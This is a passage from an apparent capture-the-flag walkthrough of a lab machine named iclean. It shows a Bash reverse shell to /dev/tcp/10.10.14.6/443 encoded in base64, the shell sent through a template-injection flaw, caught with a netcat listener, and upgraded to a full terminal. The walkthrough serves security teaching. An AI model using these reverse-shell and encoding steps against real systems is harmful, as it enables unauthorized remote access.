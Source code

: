 Just sending a [Bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) here doesn't work. I
think the special characters are getting in the way. I'll make a bash64
encoded string of a Bash reverse shell:



    oxdf@hacky$ echo 'bash -c  "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 -w0 ; echo
    YmFzaCAtYyAgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK



I'll test it to make sure it works on my machine, and then send it via
the SSTI:

![](/img/image-20240713131456705.png)

It hangs, but at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.12 40982
    bash: cannot set terminal process group (1222): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@iclean:/opt/app$ 



Interestingly, `script` fails to get a PTY for a [shell
upgrade](%E2%80%8Bhttps://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@iclean:/opt/app$ script /dev/null -c /bin/bash
    Script started, output log file is '/dev/null'.
    This account is currently not available.
    Script done.
    www-data@iclean:/opt/app$



The Python alternative works fine:

